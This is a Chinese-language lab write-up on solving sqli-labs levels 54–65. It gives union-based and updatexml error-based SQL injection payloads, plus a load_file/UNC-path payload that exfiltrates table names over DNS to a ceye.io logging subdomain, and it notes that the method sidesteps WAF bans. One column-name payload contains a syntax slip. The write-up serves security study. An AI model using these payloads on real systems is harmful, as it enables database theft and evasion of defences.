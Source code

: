 ## sqlilab做题总结（三）

sqlilab今天正式做完一遍啦，今天最后把Less54-Less65完成。

首先这部分的题比较奇怪，限制了注入次数，超过了次数，表名列名字段名都会重置，导致我们进行注入测试的时候需要严格注意每一次注入的内容，其中后面的盲注对脚本的要求也相当高。

##### Less54-57

这四个提相对简单，常规的联合查询注入，注意一下闭合方式即可。

>总结一下常见的一些闭合方式：
>
>1.单引号闭合```'```
>
>2.双引号闭合```"```
>
>3.单引号加括号```')```'
>
>4.双引号加括号```'")```
>
>5.括号(仅限数字型注入)```)```
>
>6.单引号加双括号```'))```
>
>7.双引号加括号```"))```

这里以54为例注入，主要payload：

```sql
?id=0' union select 1,2,3 %23  # 判断列数
```

```sql
?id=0' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema="challenges"),3 %23    # 表名(数据库名已知故不需要获取)
```

```sql
?id=0' union select 1,(select group_concat(column_name) from information_schema.columns) where table_schema="challenges" and table_name="XXXXX"),3 %23  # 列名
```

##### Less58-61

这三个题也属于基础题，报错注入，同样注意一下闭合方式即可。payload(以58为例)：

```sql
?id=1' and updatexml(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema="challenges")),1) %23
```

##### Less62-65

这几个题难度较高，限制130次查询，盲注出key。

首先判断一下我们需要爆出的字符个数：

> 1.数据库名，已知
>
> 2.数据表名，10位
>
> 3.列名，secret_XXXX，4位
>
> 4.字段名，24位
>
> 共计38位。

相当于130次爆出38个字符，平均一个字符3-4次，传统二分法貌似无法实现。不过如果限制放宽一些的话(180-200次)的话，二分法脚本是可以完成的。

如果是Windows环境，这里可以考虑借助DNS来完成注入。首先注册一个ceye.io的账号，随后ceye.io会分配一个子域名，随机分配，这里用xxxxxx代替。load_file函数除了可以读取本地文件之外，也可以对形如```\\www.test.com```的url发起请求。

在Windows系统中，```\\```开头的会被识别为UNC路径。

> UNC是一种命名惯例, 主要用于在Microsoft Windows上指定和映射网络驱动器. UNC命名惯例最多被应用于在局域网中访问文件服务器或者打印机。我们日常常用的网络共享文件就是这个方式。

相当于```\\\www.test.com```被识别成了网络地址，这里请求的时候会进行dns解析，这里我们便可以通过将我们想要查询的信息写入url中，随后查看dns解析记录(dnslog)，信息便可以获取到了。

payload：

```sql
?id=1') and if((select load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema="challenges" limit 0,1),'.xxxxxx.ceye.io\\abc'))),1,1) %23
```

随后回到ceye.io查看解析记录，发现数据表名已经获得。

ps1.这个方法有局限性，必须是Windows系统，且mysql具有较高权限。

ps2.其他的需要盲注的题目，如果我们反复高频的发送请求，waf可能会ban掉我们的ip，这时如果我们借助这样的方式，就可以轻松的实现数据的读取了。